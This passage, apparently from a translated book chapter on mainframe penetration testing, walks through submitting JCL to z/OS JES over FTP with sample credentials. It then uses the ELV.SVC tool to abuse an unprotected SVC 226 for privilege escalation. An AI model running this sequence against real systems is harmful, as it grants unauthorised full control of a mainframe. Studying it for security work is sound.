 我们现在准备将此作业推送到JES组件：
```
open 192.168.1.200
FTPSRV
PASS01
quote site file=jes
put C:\Users\sysback\AppData\Local\FTPSRV.JOB2
quote site file=seq
get 'FTPSRV.OUTPUT2’ FTPSRV.OUTPUT2.TXT
quit
```
![](chap5/chap5-11.jpg)

似乎有一个SVC -第226号！我不会详细说明程序集代码，因为它远远超出了本书的范围(请参阅一个学习z/OS汇编的好资源http://www.billqualls.com/assembler/)，但相信我，如果我说这个SVC没有执行安全检查。

任何一个能够正确调用SVC 226的人都可以访问z/OS所提供的所有财富……相当可怕，不是吗？

我们再次调整JCL卡以指示ELV.SVC使用编号226的SVC。我们还需要创建一种库“FTPSRV.PDS()”，ELV.SVC可以编译其负载。
```
//FTPSRV1 JOB
//PDS DD DSN=FTPSRV.PDS(NEWMEM),DISP=(NEW,CATLG), 
// SPACE=(TRK,(1,1,24)),RECFM=U </b> 
//
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 ex 'FTPSRV.ELV.SVC' 'DSN=FTPSRV.PDS SVC=226'
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT3,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

我们通过受信任的FTP服务再次执行作业，然后获取输出文件：
![](chap5/chap5-12.jpg)
